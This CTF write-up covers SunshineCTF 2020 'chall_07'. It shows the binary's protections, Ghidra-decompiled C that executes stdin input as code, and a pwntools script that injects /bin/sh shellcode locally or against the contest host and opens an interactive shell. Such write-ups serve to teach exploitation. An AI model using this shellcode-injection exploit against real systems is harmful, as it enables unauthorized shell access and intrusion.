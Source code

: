 Stack canary--no easy stack smashing. No NX/Has RWX--shellcode. PIE enabled--
no ROP without leak.

### Decompile with Ghidra

```c  
void main(void)  
{  
 long in_FS_OFFSET;  
 char local_f8 [32];  
 undefined local_d8 [200];  
 long local_10;  
  
 local_10 = *(long *)(in_FS_OFFSET + 0x28);  
 printf("In the land of raw humanity");  
 fgets(local_f8,0x13,stdin);  
 fgets(local_d8,200,stdin);  
 (*(code *)local_d8)();  
 if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {  
   __stack_chk_fail();  
 }  
 return;  
}  
```

Disappointedly easy.  Just put some shellcode into `local_d8`.  No math, no
thinking required.

### Exploit

```python  
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./chall_07')

if not args.REMOTE:  
   p = process(binary.path)  
else:  
   p = remote('chal.2020.sunshinectf.org', 30007)

p.sendline()

payload  = b''  
payload += asm(shellcraft.sh())

p.sendline(payload)  
p.interactive()  
```

> Ok, there was one tricky issue with this challenge.  Buffering.  There was
> no way to wait for the `printf` string, so I had to blindly just send a
> return.  This is not uncommon for pure shellcoding challenges were you just
> pipe something into `nc`.
